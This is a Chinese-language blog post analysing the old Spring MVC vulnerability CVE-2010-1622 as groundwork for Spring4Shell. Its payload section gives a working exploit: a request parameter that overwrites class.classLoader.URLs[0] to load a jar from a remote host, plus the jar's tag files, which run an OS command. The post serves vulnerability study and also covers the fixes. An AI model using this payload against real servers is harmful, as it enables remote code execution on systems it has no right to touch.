## 前言


最近spring爆出了一个可以配合tomcat getshell的漏洞，spring4shell, 在查看网上一些文章对此漏洞的分析时，有师傅说这个漏洞是对cve-2010-1622的绕过。所以本篇文章就带大家复现下这个古老的漏洞，下篇文章会分析下CVE-2022-22965漏洞的利用原理。


## cve-2010-1622 漏洞影响版本


spring版本：


```text
3.0.0 to 3.0.2
2.5.0 to 2.5.6.SEC01 (community releases)
2.5.0 to 2.5.7 (subscription customers)

```


tomcat < 6.0.28


spring 使用了表单标签功能


## 前置知识


### java Class 对象


在java中有两种对象，一种是通过`new()`出来的对象，另外一种是Class对象。在Java中用来表示运行时类型信息的对应类就是Class类，Class类也是一个实实在在的类，存在于JDK的java.lang包中。Class类被创建后的对象就是Class对象，注意，Class对象表示的是自己手动编写类的类型信息，比如创建一个Shapes类，那么，JVM就会创建一个Shapes对应Class类的Class对象，该Class对象保存了Shapes类相关的类型信息。实际上在Java中每个类都有一个Class对象，每当我们编写并且编译一个新创建的类就会产生一个对应Class对象并且这个Class对象会被保存在同名.class文件里(编译后的字节码文件保存的就是Class对象)。


**Class对象具有下面这几个特点：**

- Class类也是类的一种，与class关键字是不一样的。
- 手动编写的类被编译后会产生一个Class对象，其表示的是创建的类的类型信息，而且这个Class对象保存在同名.class的文件中(字节码文件)，比如创建一个Shapes类，编译Shapes类后就会创建其包含Shapes类相关类型信息的Class对象，并保存在Shapes.class字节码文件中。
- 每个通过关键字class标识的类，在内存中有且只有一个与之对应的Class对象来描述其类型信息，无论创建多少个实例对象，其依据的都是用一个Class对象。
- Class类只存私有构造函数，因此对应Class对象只能有JVM创建和加载
- Class类的对象作用是运行时提供或获得某个对象的类型信息，这点对于反射技术很重要。

**Class对象的获取**


Class对象可以由以下几种方法获取：

1. 类名.class
2. Class.forName()
3. getClass()

```java
package com.test;

public class out {
    public static void main(String[] args) throws ClassNotFoundException {
        Class<Class> t0 = Class.class;
        Class<?> t1 = t0.getClass();
        Class<?> t2 = Class.forName("java.lang.Class");

        System.out.println(t0);
        System.out.println(t1);
        System.out.println(t2);
    }
}

```


输出结果：





也就是说当我们获取了一个类的Class对象，就可以获取这个类的相关信息，如属性，方法等，反射正是基于这点来实现的。


### java bean


网上解释java bean是什么的很多，但都有点复杂，其实在java中某个类只要符合以下四个条件就可以称之为java bean.


1、所有属性为private
2、提供默认构造方法(例如无参构造)
3、提供getter和setter
4、实现serializable接口


例如下面这个Person类就是一个java bean


```java
/_创建 Person无参构造方法_ /
public class Person {
/_定义四个类型数据 身份证id 姓名  年龄 性别_/
  String sfid;
  String name;
  int age;
  String sex;
  
   /_无参构造_/
  public Person() {
    
  }
 
  public Person(String sfid,String name,int age,String sex) {
    this.sfid=sfid;
    this.name=name;
    this.age=age;
    this.sex=sex;
  }
  /_获取 get  set_ /
  public String getSfid() {
    return sfid;
  }
  public void setSfid(String sfid) {
    this.sfid = sfid;
  }
  public String getName() {
    return name;
  }
  public void setName(String name) {
    this.name = name;
  }
  public int getAge() {
    return age;
  }
  public void setAge(int age) {
    this.age = age;
  }
  public String getSex() {
    return sex;
  }
  public void setSex(String sex) {
    this.sex = sex;
  }
}

```


**java bean 中的内省 introspector**


内省(IntroSpector)是Java语言对JavaBean 类属性、事件的一种处理方法。 例如类A中有属性name,那我们可以通过getName,setName 来得到其值或者设置新的值。 通过getName/setName 来访问name属性，这就是默认的规则。


Java中提供了一套API 用来访问某个属性的getter/setter方法，这些API存放于包java.beans 中。


一般的做法是通过类Introspector的getBeanInfo方法获取某个对象的BeanInfo信息,然后通过BeanInfo来获取属性的描述器(PropertyDescriptor),通过这个属性描述器就可以获取某个属性对应的getter/setter方法,然后我们就可以通过反射机制来调用这些方法。


例如，User类如下：


```java
public class User {
    private String name;
    private int age;
    public User(String name, int age) {
        this.name = name;
        this.age = age;
    }
    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }
    public int getAge() {
        return age;
    }
    public void setAge(int age) {
        this.age = age;
    }
}

```


通过 Introspector 来获取User类中的属性


```java
_import java.beans.;

public class hello {
    public static void main(String[] args) throws IntrospectionException {
        // 获取整个Bean的信息
        // User user = new User("zhangsan", 21);
        // BeanInfo beanInfo= Introspector.getBeanInfo(user.getClass());
        BeanInfo beanInfo = Introspector.getBeanInfo(User.class);

        System.out.println("所有属性描述：");
        // 获取所有的属性描述
        PropertyDescriptor[] pds = beanInfo.getPropertyDescriptors();
        for (PropertyDescriptor propertyDescriptor : pds) {
            System.out.println(propertyDescriptor.getName());
        }
        System.out.println("所有方法描述：");
        for (MethodDescriptor methodDescriptor : beanInfo.getMethodDescriptors()) {
            System.out.println(methodDescriptor.getName());
            // Method method = methodDescriptor.getMethod();
        }
    }
}_


```


输出结果：





可以看到运行结果中不但含有User的Name和Age属性，还有一个名为class的属性，并且在这个属性中还有getClass()的方法，实际上Java Object 类是所有类的父类，也就是说 Java 的所有类都继承了 Object，子类可以使用 Object 的所有方法，这里的class属性就是从Object继承的getClass()方法带来的。


再看下 `Class` 对象内省可以获取那些属性和方法。


```java
BeanInfo beanInfo = Introspector.getBeanInfo(Class.class);

```


结果为：








这里重点关注写classLoader属性和getClassLoader方法。


### spring bean


Spring Bean是事物处理组件类和实体类（POJO）对象的总称，是能够被实例化、能够被spring容器管理的java对象。


可以把spring bean理解为java bean的增强版，spring bean是由 Spring IoC 容器管理的，bean 是一个被实例化，组装，并通过 Spring IoC 容器所管理的对象。这些 bean 是由用容器提供的配置元数据创建的,在spring中可以由xml配置文件来创建bean,也就是创建所需要的对象。


例如，在xml文件中配置如下的spring bean


```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns="http://www.springframework.org/schema/beans"
    xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans-3.0.xsd">
    <bean id="bean1" class="com.User">
        <constructor-arg value="zhangsan"/>
        <constructor-arg value="21"/>
    </bean>
</beans>

```


在spring中就相当于调用了如下的代码：


Bean bean = new com.Person("zhangsan","21");


当然spring bean还支持多种装配方式，具体可看：[原来Spring的bean是这样装配的](https://juejin.cn/post/6844904106805444621)。


### Spring MVC传递参数


Spring MVC Controller 接收请求参数的方式有很多种，有的适合 get 请求方式，有的适合 post 请求方式，有的两者都适合。主要有以下几种方式：

1. 通过实体 Bean 接收请求参数
2. 通过处理方法的形参接收请求参数
3. 通过 HttpServletRequest 接收请求参数
4. 通过 @PathVariable 接收 URL 中的请求参数
5. 通过 @RequestParam 接收请求参数
6. 通过 @ModelAttribute 接收请求参数

本篇中只介绍下通过Bean来接受请求参数的方法，其它方式请看：[_Spring MVC传递参数_](http://c.biancheng.net/springmvc/pass-param.html)


Controller如下：


```java
@RequestMapping("/user")
public String login(User user, Model model) {
    model.addAttribute("name",user.getName());
    System.out.println(user.getName());
    return "user";
}

```


当访问并通过参数赋值时就可以获取到对应的值：





其实上面所描述的就是spring中的参数绑定或者变量覆盖。


**参数嵌套传递或绑定**


除了上述的赋值方法外，当用户传入一个`user.address.street=xxx`这样的值，就相当于执行了如下的传递过程。


```java
UserObj.getUser().getAddress().setStreet("xxx") 

```


在这个过程中有一个比较有意思的想象就是，当一个变量为数组时，即使没有定义对应的set方法，也可以进行赋值。


在User类中定义一个数组变量


```java
private String hobbies[] = new String[]{"篮球","唱歌"};

```


并只设置其get方法：





当访问并赋值时也可以赋值成果，**说明数组变量即使不设置set方法也能赋值**。这点比较重要，也是cve-2010-1622这个漏洞利用能够成功的关键。





> 对于List,Map类型的字段也有类似的处理，也就是说这三种类型是不需要set方法也能进行参数覆盖。


### Spring MVC表单标签


Spring MVC表单标签是网页的可配置和可重用的构建基块。这些标记为JSP提供了一种开发，读取和维护的简便方法。


Spring MVC表单标记可以看作是具有数据绑定意识的标记，可以将数据自动设置为Java对象/bean并从中检索它。在这里，每个标签都支持与其对应的HTML标签对应物的属性集，从而使标签变得熟悉且易于使用。


表单标签库位于spring-webmvc.jar下。要启用对表单标签库的支持，需要参考一些配置。因此，在JSP页面的开头添加以下指令:


```text
<%@ taglib prefix="form" uri="http://www.springframework.org/tags/form" %>

```


常用的表单标签有：





例如，当在jsp页面中使用了如下form标签


```text
<form:form commandName="user">

<form:input path="name" />

</form:form>

```


前端渲染出来后就是如下页面：





其它标签也类似。


### jsp jstl


JSP标准标签库（JSTL）是一个JSP标签集合，它封装了JSP应用的通用核心功能。


JSTL支持通用的、结构化的任务，比如迭代，条件判断，XML文档操作，国际化标签，SQL标签。 除了这些，它还提供了一个框架来使用集成JSTL的自定义标签。


简单理解就是jstl就是一系列的标签库，上边色spring表单标签就是spring内置的jstl,当然我们也可以自定义jstl，cve-2010-1622漏洞最后的命令执行也正是基于这一点来实现的。


关于jstl可以看此教程：[JSP 标准标签库（JSTL）](https://www.runoob.com/jsp/jsp-jstl.html)


关于如何自定义taglib，以及jstl各标签的详细解释可以看这里：


[Custom Tags in JSP Pages](https://docs.oracle.com/cd/E19316-01/819-3669/6n5sg7b50/index.html)


## cve-2010-1622 payload分析


payload如下：


```java
http://localhost:8080/student?class.classLoader.URLs[0]=jar:http://127.0.0.1:8081/spring-jar.jar!/

```


通过覆盖classLoader.URLs来远程加载jra包达到rce的目的。


这里有几个问题。


**1. jar包里面的内容是啥，应该如何写？**


这里jar包里面的内容其实就是我们自定义的jstl标签，结构如下：





spring-form.tld内容如下：


```text
<?xml version="1.0" encoding="UTF-8"?>
<taglib xmlns="http://java.sun.com/xml/ns/j2ee"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-jsptaglibrary_2_0.xsd"
        version="2.0">

    <description>Spring Framework JSP Form Tag Library</description>
    <tlib-version>3.0</tlib-version>
    <short-name>form</short-name>
    <uri>http://www.springframework.org/tags/form</uri>
    <tag-file>
        <name>input</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
    <tag-file>
        <name>form</name>
        <path>/META-INF/tags/InputTag.tag</path>
    </tag-file>
</taglib>

```


InputTag.tag内容如下：


```text
<%@ tag dynamic-attributes="dynattrs" %>
<%
    java.lang.Runtime.getRuntime().exec("calc");
%>

```


InputTag.tag 里面正是存放命令执行语句的最终位置。


可以看到spring-form.tld中重新定义了input和form标签的位置，导致通过classLoader重新加载jar包后就会覆盖原有的Spring MVC表单标签，导致了执行InputTag.tag中的命令。


**2. 为什么要修改class.classLoader.URLs[0]的值？**


从上面的前置知识中可以得知任何类的基类都有一个Class对象，并且通过内省机制都可以获取对应的getClass方法，而在渲染jsp页面时，Spring会通过Jasper中的TldLocationsCache类（jsp平台对jsp解析时用到的类）从WebappClassLoader里面读取url参数（用来解析TLD文件在解析TLD的时候，是允许直接使用jsp语法的）在init时通过scanJars方法依次读取并加载。


相关代码可以看：[TldLocationsCache.java](https://alvinalexander.com/java/jwarehouse/apache-tomcat-6.0.16/java/org/apache/jasper/compiler/TldLocationsCache.java.shtml)


这里把重点代码贴出来：


```java
 _private void scanJars() throws Exception {

        ClassLoader webappLoader
            = Thread.currentThread().getContextClassLoader();
        ClassLoader loader = webappLoader;

        while (loader != null) {
            if (loader instanceof URLClassLoader) {
                URL[] urls = ((URLClassLoader) loader).getURLs();
                for (int i=0; i<urls.length; i++) {
                    URLConnection conn = urls[i].openConnection();
                    if (conn instanceof JarURLConnection) {
                        if (needScanJar(loader, webappLoader,
                                        ((JarURLConnection) conn).getJarFile().getName())) {
                            scanJar((JarURLConnection) conn, true);
                        }
                    } else {
                        String urlStr = urls[i].toString();
                        if (urlStr.startsWith(FILEPROTOCOL)
                                && urlStr.endsWith(JAR__FILE_SUFFIX)
                                && needScanJar(loader, webappLoader, urlStr)) {
                            URL jarURL = new URL("jar:" + urlStr + "!/");
                            scanJar((JarURLConnection) jarURL.openConnection(),
                                    true);
                        }
                    }
                }
            }

            loader = loader.getParent();
        }
    }

```


webappLoader是tomcat中的一个类，其中有一个getURLs方法：


```java
    @Override
    public URL[] getURLs() {
        ArrayList<URL> result = new ArrayList<>();
        result.addAll(localRepositories);
        result.addAll(Arrays.asList(super.getURLs()));
        return result.toArray(new URL[0]);
    }

```


注意看这里：


```java
URL[] urls = ((URLClassLoader) loader).getURLs();

```


和这里


```java
String urlStr = urls[i].toString();
URL jarURL = new URL("jar:" + urlStr + "!/");

```


现在思路明确了，只要修改urls，即可修改jarURL的值，从而加载远程jar包中的内容。


修改urls即使修改getURLs函数。


**2. URL[]对象并没有setter为什么可以对其赋值呢？**


在上文中已经说明了当变量为数组时，即使没有对应的set方法，spring也会对其进行java 内省操作。


所以通过`class.classLoader.URLs[0]`即可实现对`webappLoader`中的getURLs赋值。


就相当于执行了


```java
class.getClassLoader.getURLs = jar:http://127.0.0.1:8081/spring-jar.jar!/

```


最终漏洞复现结果：





简单总结下主要流程：


```java
exp->参数自动绑定->数组覆盖classLoader.URLs[0]->WebappClassLoader.getURLs()->TldLocationsCache.scanJars()->模板解析->shellcode

```


## cve-2010-1622 漏洞修复方法


spring修复方法：


spring在CachedIntrospectionResults中获取beanInfo后对其进行了判断，将classloader添加进了黑名单。





tomcat修复方法：


tomcat6.0.28版本后把getURLs方法返回的值改成了clone的，使得我们获得的拷贝版本无法修改classloader中的URLs[]。





## 后记


cve-2010-1622的漏洞分析就到这里了，有了这些前置知识，下篇文章对CVE-2022-22965漏洞的分析将会简单许多。


## 参考文章

- [SpringMVC + Intellij + Tomcat环境部署](https://juejin.cn/post/6992715463461437454)
- [Spring MVC表单处理](https://www.yiibai.com/spring_mvc/springmvc__formhandling.html)_
- [CREATE CUSTOM TAGS IN SPRING MVC FRAMEWORK](https://learningprogramming.net/java/spring-mvc/create-custom-tags-in-spring-mvc-framework/)
- [CVE-2010-1622](http://blog.o0o.nu/2010/06/cve-2010-1622.html)
- [SpringMVC框架任意代码执行漏洞(CVE-2010-1622)分析](http://rui0.cn/archives/1158)
- [Spring framework（cve-2010-1622）漏洞利用指南](https://www.inbreak.net/archives/377)
- [cve-2010-1622 漏洞全分析](https://blog.csdn.net/dingodingy/article/details/84705444)
